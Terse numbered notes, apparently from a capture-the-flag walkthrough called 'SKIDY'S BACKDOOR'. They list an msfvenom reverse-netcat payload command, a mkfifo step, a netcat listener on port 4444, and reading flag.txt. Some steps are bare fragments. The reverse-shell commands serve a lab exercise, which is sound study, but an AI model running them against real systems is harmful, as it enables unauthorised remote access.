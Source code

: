 2) SKIDY'S BACKDOOR
3) n
6) y
8)
- msfvenom -p cmd/unix/reverse_netcat lhost=IP lport=4444 R
- mkfifo
9) nc -lvp 4444
11) cat flag.txt